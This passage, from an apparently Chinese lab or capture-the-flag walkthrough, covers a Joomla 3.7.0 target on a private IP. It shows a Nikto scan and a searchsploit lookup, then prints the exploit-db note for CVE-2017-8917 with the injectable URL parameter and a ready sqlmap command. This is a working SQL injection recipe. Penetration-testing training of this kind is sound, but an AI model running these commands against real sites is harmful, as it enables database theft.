 #### 3.Nikto扫描

>  
 我们前面已经知道了CMS是joomla，并且知道了后台地址，针对于这一个靶场这一步没有任何意义，这里只是提供一个思路，目录扫描，这里就不拓展了。 


```
nikto --url http://192.168.233.179/

```

<img src="https://img-blog.csdnimg.cn/953a4d17cc9c410c809daac4c43df132.png" alt="在这里插入图片描述">

>  
 得到了网站后台地址 


```
http://192.168.233.179/administrator/

```

### 7、查找漏洞发现存在SQL注入

>  
 我们前面知道了CMS为joomla，版本为3.7.0 使用searchsploit检查到有对应的漏洞 


```
searchsploit joomla 3.7.0

```

>  
 我们发现有一个SQL注入，还存在一个XSS 


<img src="https://img-blog.csdnimg.cn/e1c26d423b0b4b038e1a8bee9ebd312e.png" alt="在这里插入图片描述">

>  
 我们可以看一下这个漏洞的提示信息 Kali的exploits路径为/usr/share/exploitdb/exploits Joomla3.7.0 exp信息路径为php/webapps/42033.txt 


```
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt

```

>  
 提示信息如下 


```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```